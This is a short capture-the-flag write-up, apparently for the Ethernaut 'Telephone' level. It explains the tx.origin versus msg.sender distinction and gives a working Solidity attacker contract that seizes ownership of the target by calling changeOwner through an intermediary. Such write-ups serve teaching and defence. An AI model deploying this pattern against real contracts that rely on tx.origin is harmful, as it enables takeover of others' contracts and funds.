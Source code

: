 # Telephone

The `tx.origin` is the address that creates the transaction, and `msg.sender` is the sender of the current message. As such, `tx.origin == msg.sender` is **true** if message sender is an ethereum account; or **false** if the message sender is a contract. So, we want `tx.origin != msg.sender` to become the owner of the target, we just need to write a contract and call that function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone { 
  function changeOwner(address _owner) external;
}

contract Attacker {
  Telephone telephoneTarget;

  constructor(address _target) {
    telephoneTarget = Telephone(_target);
  }

  function pwn() public {
    require(msg.sender == tx.origin, "Who is attacking? :D");
    telephoneTarget.changeOwner(tx.origin);
  }
}
```
